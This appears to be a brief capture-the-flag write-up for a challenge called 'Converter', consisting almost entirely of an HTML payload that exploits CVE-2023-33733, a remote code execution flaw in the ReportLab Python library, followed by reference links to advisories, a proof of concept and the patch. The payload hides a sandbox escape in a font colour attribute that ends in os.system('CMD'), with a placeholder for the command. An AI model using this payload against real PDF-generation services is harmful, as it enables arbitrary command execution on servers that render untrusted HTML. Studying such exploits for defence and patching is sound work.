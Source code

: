# Writeup - Converter
```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('CMD') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
</font></para>
```

References:
- https://securityonline.info/cve-2023-33733-rce-vulnerability-in-reportlab-python-library/
- https://github.com/c53elyas/CVE-2023-33733
- https://nvd.nist.gov/vuln/detail/CVE-2023-33733
- https://pypi.org/project/reportlab/3.6.12/
- https://hg.reportlab.com/hg-public/reportlab/rev/1c9eabaf03bc
